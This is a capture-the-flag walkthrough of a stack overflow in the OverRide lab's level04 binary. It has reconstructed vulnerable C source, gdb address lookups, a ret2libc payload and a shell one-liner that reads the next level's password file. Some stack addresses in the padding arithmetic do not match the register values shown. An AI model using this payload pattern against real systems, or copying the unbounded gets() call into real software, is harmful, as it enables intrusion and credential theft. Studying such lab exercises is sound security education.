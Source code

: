 # Level04

## Answer
Our C source code generates an assembly code similar to the original binary. Compile it as follows:
> There are some differences in the assembly code pointed out in the comments, they do impact the behavior of the program.
```
gcc -m32 -z execstack -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <signal.h>
#include <sys/ptrace.h>

void clear_stdin()
{
    unsigned char var = 0; // -0x9(%ebp)
    while (1)
    {
        var = getchar();
        if (var == '\n' || var == 0xff)
            break;
    }
}

unsigned int get_unum()
{
    unsigned int var1 = 0; // -0xc(%ebp)

    fflush(stdout);
    scanf("%u", &var1);
    clear_stdin();
    return var1;
}

void prog_timeout()
{
    exit(1); // Supposed to be a system call but cannot reproduce
}

void enable_timeout_cons()
{
    signal(SIGALRM, prog_timeout);
    alarm(60);
}
// any above functions are useless

// slight differences in assembly with stack variables alignment and optimization
int main()
{
    pid_t pid = fork(); // 0xac(%esp)
    char buff[128] = { 0 };  // 0x20(%esp)

    int ptrace_data = 0; // 0xa8(%esp)
    int stat_loc = 0;    // 0x1c(%esp)
    int backup;      // 0xa4(%esp)

    if (pid == 0)
    {
        prctl(1, 1);
        ptrace(PTRACE_TRACEME, 0, 0, 0);
        puts("Give me some shellcode, k");
        gets(buff);
    }
    else
    {
        do
        {
            wait(&stat_loc);
            backup = stat_loc;

            if (WIFEXITED(stat_loc) || WIFSIGNALED(stat_loc))
            {
                puts("child is exiting...");
                return 0;
            }

            ptrace_data = ptrace(PTRACE_PEEKUSER, pid, 44, 0);
        } while (ptrace_data != 11);

        puts("no exec() for you");
        kill(pid, 9);
    }
    return 0;
}
```

Let's focus on the `main` function.  It reads input using the `gets` function, which is known to be unsafe due to its potential for causing buffer overflows, as it lacks a mechanism to limit the number of bytes read. This will allow us to overflow the buffer and overwrite the return address of the `main` function.

### Ret2Libc
Check the [level01's walkthrough](../level01/walkthrough.md#ret2libc) for an explanation of the ret2libc technique.

We, therefore, need the addresses of the `system`, `exit` functions and the string `/bin/sh` in memory. These are found using GDB:

```bash
# System
(gdb) info function system
0xf7e6aed0  system
[...]

# Exit
(gdb) info function exit
0xf7e5eb70  exit
[...]

# /bin/sh
(gdb) info proc mappings
[...]
0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
[...]
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

To find our padding, Let's analyze the stack layout of our program:
```bash
(gdb) set follow-fork-mode child # Follow the child process

(gdb) b *main+150 # Breaking after gets
Breakpoint 1 at 0x804875e

(gdb) b *main+168 # Breaking after wait
Breakpoint 2 at 0x8048770

(gdb) r # Run the program
Starting program: /home/users/level04/level04
[New process 2910]
Give me some shellcode, k
[Switching to process 2910]

Breakpoint 1, 0x0804875e in main ()

(gdb) info registers # Check esp and ebp addresses
[...]
esp            0xffffd650       0xffffd650
ebp            0xffffd708       0xffffd708
[...]
```

By calculating the difference between `esp` and `ebp` we can see that the stack is allocated 184 bytes:
```
0xbffff728 - 0xbffff6e0 = b8 (184 in decimal)
```	

Furthermore, we can see that our buffer is located at `0x20(%esp)`. Since there is 184 bytes for the stack, our buffer will therefore require 152 bytes (184 - 32) before reaching `ebp`.

Since our goal is to overflow the stack until we reach the return address of the main function, we need to add another 4 bytes to go from `ebp` to `ebp + 4` (the return address). So a total of 156 bytes (152 + 4).

Anything written beyond those 156 bytes will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `main` function.

Alright, let's craft our payload:
```
reminder: padding + address of system + address of exit + address of "/bin/sh"

"\x90"*156 + "\xf7\xe6\xae\xd0" + "\xf7\xe5\xeb\x70" + "\xf7\xf8\x97\xec"
```

Let's run it:
```bash
level04@OverRide:~$ (python -c 'print("\x90"*156 + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1])' && echo cat /home/users/level05/.pass) | ./level04
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

We are now level05! Let's move on to the next level.